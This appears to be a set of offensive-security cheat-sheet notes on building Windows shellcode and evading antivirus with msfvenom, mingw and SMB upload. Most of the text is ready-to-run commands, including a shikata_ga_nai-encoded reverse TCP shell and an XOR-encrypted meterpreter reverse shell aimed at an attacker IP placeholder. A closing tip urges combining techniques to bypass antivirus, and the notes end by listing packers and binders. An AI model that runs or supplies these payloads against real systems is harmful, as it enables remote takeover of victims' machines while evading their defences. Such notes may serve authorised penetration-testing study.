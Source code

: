 ### Tools: Command and Control Frameworks, msfvenom, powercat, https://github.com/optiv/Freeze

# GENERATE SHELLCODE USING PUBLIC TOOLS

### example:

#### 1) msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f c

#### 2) Write a C program

#### 3) i686-w64-mingw32-gcc calc.c -o calc-MSF.exe

#### 4) smbclient -U USER '//IP/Tools'

#### put calc-MSF.exe

### Another example

#### 1) msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin

#### 2) xxd -i /tmp/example.bin

## ENCODING WITH MSFVENOM

#### 1) msfvenom --list encoders | grep excellent

#### 2) msfvenom -a x86 --platform windows LHOST=ATTACK_IP LPORT=PORT -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i NUM -f EXTENSION

## ENCRYPTING WITH MSFVENOM

#### 1) msfvenom --list encrypt

#### 2) msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACK_IP LPORT=PORT -f exe --encrypt xor --encrypt-key "KEY" -o xoredrevshell.exe

# TIP: THESE METHODS WON'T WORK OUT OF THE BOX! DO SOME WOMBO COMBOS WITH OTHER TECHNIQUES OR REVERSE ENGINEER THE PAYLOAD FOR A SUCCESSFUL ANTIVIRUS BYPASS!!!

## Summary:

### 1) Encoding

### 2) Encryption

### 3) Packers

### 4) Binders
